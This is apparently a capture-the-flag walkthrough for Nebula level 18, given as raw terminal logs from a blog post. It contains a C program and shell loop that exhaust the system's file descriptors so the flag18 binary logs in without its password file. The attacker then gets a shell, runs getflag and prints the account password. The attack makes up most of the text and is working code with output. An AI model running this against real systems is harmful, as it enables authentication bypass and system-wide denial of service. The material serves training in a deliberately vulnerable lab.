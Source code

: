 level18@nebula:~$ sysctl fs.file-nr
fs.file-nr = 5376       0       204482
level18@nebula:~$

level18@nebula:~$ sysctl fs.file-nr
fs.file-nr = 19424      0       204482



level18@nebula:~$ cd ../flag18
level18@nebula:/home/flag18$ ./flag18 -d /dev/tty -v
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
shell
./flag18: -d: invalid option
Usage:  ./flag18 [GNU long option] [option] ...
        ./flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
level18@nebula:/home/flag18$ ./flag18 --init-file -d /dev/tty -v
./flag18: invalid option -- '-'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'n'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 't'
./flag18: invalid option -- '-'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
shell
ls
--d  flag18  password  -v
getflag
You have successfully executed getflag on a target account
cat password
44226113-d394-4f46-9406-91888128e27a




#include <sys/stat.h>
#include <fcntl.h>
int main(int argc, char **argv, char **envp)
{
        int i=0;
        for (i=0;i<4096;i++)
        {
                printf ("%d\n",i);
                open("/tmp/open","r");
        }
getchar();
return 0;
}




level18@nebula:~$ gcc filed.c

level18@nebula:~$sysctl fs.file-nr
fs.file-nr = 153312     0       204482

level18@nebula:~$for i in {1..1000};do ./a.out & done

level18@nebula:~$sysctl fs.file-nr
-sh: start_pipeline: pgrp pipe: Too many open files in system
-sh: /sbin/sysctl: Too many open files in system
[1232]   Done(126)               ./a.out
[1233]   Done(126)               ./a.out
[1234]   Done(126)               ./a.out
[1235]   Done(126)               ./a.out
[1236]   Done(126)               ./a.out

level18@nebula:~$for i in {1..100};do kill "%$i";done

https://decepticode.wordpress.com/2016/05/07/nebula-level18/comment-page-1/